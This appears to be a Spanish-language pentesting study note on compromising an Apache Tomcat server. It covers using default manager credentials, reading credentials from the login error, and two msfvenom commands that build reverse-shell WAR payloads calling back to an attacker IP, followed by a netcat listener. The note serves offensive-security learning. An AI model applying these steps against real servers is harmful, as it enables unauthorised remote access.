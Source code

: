 Una vez hemos hecho todo el reconocimiento y encontramos que hay levantado un Tomcat tendremos que navegar a la IP.
En la pagina por defecto se puede acceder a una parte de administrador `manager-webapp` al hacerle clic nos sale un Pop-Up con un panel de login.
Lo mas idóneo seria buscar en el navegador `hacktricks apache tomcat default credentials` para encontrar los valores por defecto de login de Tomcat.
Un truco para evitar estar probando con todos los usuarios y contraseñas es darle a cancelar en el Pop-Up y en el mensaje de error nos suele mostrar las credenciales.
Con esto conseguiremos acceder al panel de administración en el panel de administración siempre se encuentra una zona en la podemos subir archivos, así que desde hay podemos generar un payload para ganar acceso a la maquina.
Lo vamos a hacer con [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]]
Tenemos dos opciones de payload en caso de que no nos funcione:
1. 
`msfvenom -p java/shell_reverse_tcp LHOST=192.168.1.28 LPORT=444 -f war -o revershell1.war`

2. 
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.28 LPORT=444 -f war -o revershell2.war`

Una vez tengamos los dos payloads generados los subimos al servidor
Nos ponemos en escucha con [[NETCAT]] en el puerto configurado
Hay que hacer los [[01. Tratamiento de la TTY]]
